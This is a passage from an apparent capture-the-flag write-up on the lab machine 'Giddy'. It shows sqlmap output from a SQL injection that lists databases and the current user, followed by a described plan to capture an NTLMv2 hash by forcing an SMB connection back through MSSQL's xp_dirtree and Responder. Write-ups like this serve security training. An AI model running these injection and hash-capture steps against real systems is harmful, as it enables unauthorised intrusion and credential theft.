 ```
[19:46:38] [INFO] fetching database names
[19:46:38] [INFO] used SQL query returns 5 entries
[19:46:38] [INFO] retrieved: Injection
[19:46:38] [INFO] retrieved: master
[19:46:38] [INFO] retrieved: model
[19:46:38] [INFO] retrieved: msdb
[19:46:38] [INFO] retrieved: tempdb
available databases [5]:
[*] Injection
[*] master
[*] model
[*] msdb
[*] tempdb

[19:46:38] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 67 times
[19:46:38] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.104'

[*] shutting down at 19:46:38
```

We found one of the local user: `Stacy`

```
[19:48:06] [INFO] fetching current user
[19:48:06] [INFO] retrieved: giddy\\stacy
current user:    'giddy\\stacy'
```

We can't pull the users from the database since the current user doesn't have sufficient privileges:

```
[19:47:25] [WARNING] unable to retrieve the number of password hashes for user 'BUILTIN\\Users'
[19:47:25] [INFO] fetching number of password hashes for user 'giddy\\stacy'
[19:47:25] [INFO] retrieved: 
[19:47:25] [INFO] retrieved: 
[19:47:26] [WARNING] unable to retrieve the number of password hashes for user 'giddy\\stacy'
[19:47:26] [INFO] fetching number of password hashes for user 'sa'
[19:47:26] [INFO] retrieved: 
[19:47:26] [INFO] retrieved: 
[19:47:26] [WARNING] unable to retrieve the number of password hashes for user 'sa'
[19:47:26] [ERROR] unable to retrieve the password hashes for the database users (probably because the DBMS current user has no read privileges over the relevant system database table(s))
```

There's nothing else of interest in the database, no credentials or any other hint.

### SMB hashes

We have a username but no password for that account. However we can force the MSSQL server to connect back to use with SMB and then use responder to get the NTLMv2 hash.

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

